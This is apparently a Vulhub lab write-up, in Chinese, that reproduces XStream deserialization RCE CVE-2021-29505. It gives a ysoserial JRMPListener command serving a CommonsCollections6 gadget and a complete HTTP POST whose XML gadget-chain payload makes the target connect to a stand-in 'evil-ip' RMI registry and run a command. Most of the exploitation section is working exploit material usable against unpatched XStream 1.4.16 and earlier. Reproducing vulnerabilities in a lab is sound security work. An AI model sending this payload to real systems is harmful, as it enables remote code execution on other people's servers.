



XStream 反序列化命令执行漏洞 CVE-2021-29505¶
漏洞描述¶
XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。
XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用 sun.rmi.registry.RegistryImpl_Stub 构造 RMI 请求，进而执行任意命令。
参考链接：
环境搭建¶
Vulhub 执行如下命令启动一个 Springboot + XStream 1.4.16 的环境：
docker-compose up -d
环境启动后，我们向 http://your-ip:8080 发送一个正常的 XML 数据包，将会得到预期返回：

漏洞复现¶
作为攻击者，我们在自己的服务器上使用 ysoserial 的 JRMPListener 启动一个恶意的 RMI Registry：
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
这个 RMI Registry 在收到请求后，会返回用 CommonsCollections6 利用链构造的恶意序列化对象。
然后，我们向目标服务器发送 CVE-2021-29505 的 XML POC：
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169
<java.util.PriorityQueue serialization='custom'>
<unserializable-parents/>
<java.util.PriorityQueue>
<default>
<size>2</size>
</default>
<int>3</int>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>12345</type>
<value class='com.sun.org.apache.xpath.internal.objects.XString'>
<m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
<javax.naming.ldap.Rdn_-RdnEntry>
<type>12345</type>
<value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
<message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
<parsedMessage>true</parsedMessage>
<soapVersion>SOAP_11</soapVersion>
<bodyParts/>
<sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
<attachmentsInitialized>false</attachmentsInitialized>
<nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
<aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
<candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
<names>
<string>aa</string>
<string>aa</string>
</names>
<ctx>
<environment/>
<registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
<java.rmi.server.RemoteObject>
<string>UnicastRef</string>
<string>evil-ip</string>
<int>1099</int>
<long>0</long>
<int>0</int>
<long>0</long>
<short>0</short>
<boolean>false</boolean>
</java.rmi.server.RemoteObject>
</registry>
<host>evil-ip</host>
<port>1099</port>
</ctx>
</candidates>
</aliases>
</nullIter>
</sm>
</message>
</value>
</javax.naming.ldap.Rdn_-RdnEntry>
</java.util.PriorityQueue>
</java.util.PriorityQueue>
其中，evil-ip 是恶意 RMI 服务器的地址。恶意 RMI 服务器收到 RMI 请求：

进入目标容器内，可见 touch /tmp/awesome_poc 已成功执行：

值得注意的是，我们没有直接使用 官网 给出的 POC，那个 POC 是错的。